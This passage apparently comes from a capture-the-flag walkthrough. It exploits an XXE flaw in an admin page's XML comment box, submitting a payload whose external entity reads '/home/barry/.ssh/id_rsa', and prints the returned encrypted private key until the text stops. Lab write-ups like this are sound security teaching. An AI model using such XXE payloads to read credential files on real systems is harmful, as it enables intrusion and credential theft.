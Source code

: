 Let's try to get this 'dontforget.bak' file.
```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

They are talking about a 'null' paragraph, could be an hint.

We now have a username to ssh ('barry') and we know that the textbox in the admin page take an xml format.

Using an XXE vulnerability, we could be able to read files from the system (see [2]). As we know barry has a ssh key setup, let's try to read '/home/barry/.ssh/id_rsa' by submitting the following code in the admin textbox.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

The ```DOCTYPE``` here will read the file and put it in ```xxe```, which we will display instead of the comment. When submitting it, we have
```
-----BEGIN RSA PRIVATE KEY----- 
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
```